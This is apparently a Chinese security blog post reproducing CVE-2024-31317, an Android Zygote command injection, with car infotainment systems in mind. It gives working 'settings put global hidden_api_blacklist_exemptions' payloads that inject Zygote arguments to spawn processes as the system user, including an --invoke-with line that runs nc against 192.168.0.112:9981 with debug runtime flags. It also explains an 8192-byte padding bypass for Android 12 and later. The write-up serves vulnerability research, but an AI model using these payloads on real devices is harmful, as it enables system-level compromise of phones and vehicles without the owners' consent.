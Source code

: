 #  CVE-2024-31317 复现   
原创 腹黑  白帽100安全攻防实验室   2024-12-05 03:30  
  
### 前言  
  
前两天看到JD的公众号发了篇CVE-2024-31317漏洞的分析，通篇看下来感觉还是比较有意思，且车机目前主流方案均为安卓系统且都在该漏洞的有限范围内，遂开始复现。因为是用户态的提权，需先获取对应用户权限。因此在车联网场景下存在一定的限制，目前主流做法是限制未知签名的APK安卓且无法直接开发工程模式及ADB。但结合其他漏洞或技巧还是比较靠谱的，毕竟System能够做很多事情。另外需要注意的是该漏洞需要WRITE_SECURE_SETTINGS权限，默认情况下ADB具备此权限，在获取工程模式后用于提权还是比较滋润的，若无法直接使用ADB则需配合其他漏洞进行获取。  
### 低版本下的利用  
  
漏洞属于命令注入，整体分析难度不大，但是分析前还是需要了解下Zygote。Zygote 作为守护进程运行，可以通过fork的形式来创建应用程序进程，并接受/dev/socket/zygote 上的UNIX套接字命令。每个命令由一个十进制数字开头，后面跟对应数字的参数条数。  
```
8                              [command #1 arg count]
--runtime-args                 [arg #1: vestigial, needed for process spawn]
--setuid=10266                 [arg #2: process UID]
--setgid=10266                 [arg #3: process GID]
--target-sdk-version=31        [args #4-#7: misc app parameters]
--nice-name=com.facebook.orca
--app-data-dir=/data/user/0/com.facebook.orca
--package-name=com.facebook.orca
android.app.ActivityThread     [arg #8: Java entry point]
3                              [command #2 arg count]
--set-api-denylist-exemptions  [arg #1: special argument, don't spawn process]
LClass1;->method1(             [args #2, #3: denylist entries]
LClass1;->field1:
```  
  
diif path文件可知修改内容为增加换行符注释，这侧面证明在老版本中我们可以通过换行进行命令注入达到启动新进程的目的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvd5DPElvLxred3fRshH4WbpqVJ8PtqEeujrasicYeMgTicUic9ibrUkxyNFpziaeIBfdEiabR7hIYb9dRw/640?wx_fmt=png&from=appmsg "")  
  
继续向上跟踪该函数的调用，可以看到从最开始读取HIDDEN_API_BLACKLIST_EXEMPTIONS  
值到后续所有传递并没有任何过滤操作，也就是说我们可能直接注入任意参数进去。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvd5DPElvLxred3fRshH4Wb6YjASwsLwhiaVZVdOxE2dtkXE7K37Y14dtIVBsZLJc9V7OBm2Wkc4pQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvd5DPElvLxred3fRshH4WbZo9kON1AOibrsX17ia1sDmkCB0lbkKh7LhobXW6MxzIreibQSia1hWRQTQ/640?wx_fmt=png&from=appmsg "")  
  
那么很自然可以想到，我们只要有办法能够控制HIDDEN_API_BLACKLIST_EXEMPTIONS  
的值即可注入我们的自定义参数。前面提到想设置该值我们需要WRITE_SECURE_SETTINGS  
权限。ADB默认具备该权限，只需要通过系统自带的settings命令执行settings put global hidden_api_blacklist_exemptions command  
即可。于是我们可以通过类似以下方式尝试注入一个新的进程  
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
8
--runtime-args
--setuid=1000
--setgid=1000
--nice-name=com.android.settings
--app-data-dir=/data/user/0/com.android.settings
--package-name=com.android.settings
--seinfo=platform:system_app:targetSdkVersion=29:complete
android.app.ActivityThread"
```  
  
但似乎这并不能满足我们的需求，依旧无法执行命令。通过分析发现invokeWith参数可以进命令执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvd5DPElvLxred3fRshH4Wbhu46hxqu1p8mHQU2xKdp8qcoTXNKogEHLRSevRMYHYT89OAdLBLbbg/640?wx_fmt=png&from=appmsg "")  
  
那接下来就很简单了，我们只需构造类似以下命令即可  
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
6
--runtime-args
--setuid=1000
--setgid=1000
--invoke-with
nc 192.168.0.112 9981;
--seinfo=platform:system_app:targetSdkVersion=29:complete"
```  
  
此时会发现并不能成功触发，查看logcat会发现返回以下信息，提示需要debug模式，那么我们该如何让其进入debug？  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvd5DPElvLxred3fRshH4WbWrk2fo52sfdmGa2miaU0j8JMjEpFnHM7QY8yuwicIvDKFWic0R7sBvh5Q/640?wx_fmt=png&from=appmsg "")  
  
继续查阅代码可知，启动时存在runtime-flags参数，用于配置debug属性。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvd5DPElvLxred3fRshH4WboUCiaq56Xmqz1biaVckUia3ibNcicDrh3jkCficGOLdAr3pwH7UxWoRpdERA/640?wx_fmt=png&from=appmsg "")  
  
可配置参数如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvd5DPElvLxred3fRshH4WbA6GAwXSAhxJgGVVwcTuaC0BbTCIRcQqGwCS4AibALbPSAFyhGxnOdJQ/640?wx_fmt=png&from=appmsg "")  
  
因此我们只需在启动时加上该参数，并将所有debug属性开启即可，修改后命令如下  
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
7
--runtime-args
--setuid=1000
--setgid=1000
--runtime-flags=43267
--invoke-with
nc 192.168.0.112 9981;
--seinfo=platform:system_app:targetSdkVersion=29:complete"
```  
  
执行后nc成功捕获到网络请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibvd5DPElvLxred3fRshH4WbefCjia6KvJWotAIgXVgzspVOK8evzblgBTnFKZXgeoHTSpQzl5KGbYg/640?wx_fmt=png&from=appmsg "")  
### 高版本下的利用  
  
在Android 11及以下可以使用上述方法进行简单利用，但到了Android 12之后Google实现了一个快速路径的C++命令解析器，用于增强Zygote的Java命令解析器，并通过新类NativeCommandBuffer来完成该任务。NativeCommandBuffer在解析完所有命令行后，会将后续的内容全部丢弃并重新从套接字读取下一个命令，也就是说当我们通过命令注入两个命令后他会丢弃我们注入的内容，导致注入无法发生。那么这里就需要一个方法来bypass掉第一次的read()调用，这里主要参考了原作者的方法，在末尾插入大量逗号， 使得maybeSetApiDenylistExemptions() 在写入之后花费大量的时间进行循环来增加中间的时间间隔。这里的主要逻辑是因为maybeSetApiDenylistExemptions()会多次调用state.mZygoteOutputWriter.write()但是这些调用没有直接映射到套接字写入，因为mZygoteOutputWriter继承自BufferedWriter它在写入底层传输之前会聚合内部缓冲区中的数据。这个机制提供了一种现成的方法来发出两个套接字的写入，并且它们之间存在适当的延迟。BufferedWriter的缓冲区大小为 8192字节 ，远小于 Zygote 的缓冲区。这里只需在插入注入的恶意命令之前将其填充到8192 字节，强制 BufferedWriter先写入这些数据。  
### 参考文章  
- https://blog.flanker017.me/the-new-mystique-bug-cve-2024-31317/  
  
- https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html  
  
### 写在最后  
  
本来这个文章早就该写出来了，一直忙给忙忘了。另外铸网的时候用这个漏洞水了不少分，最近做一个测试的项目刚好是安卓车机于是想起来了这篇写一半的博客，赶紧趁着还能想起一点东西赶紧记录了下来。此外十分感谢在复现该漏洞的时候flanker大佬提供的帮助，帮我避免了大量的坑。  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aFJv52grsibtxsRYLCF9T0TS74iaL70g7e0NDX7pGnzdDpuI3YHSwwZnYDJ0xxeYOSdZlbWXQ86ibF54TSgfN5VKg/640?wx_fmt=png "")  
  
  

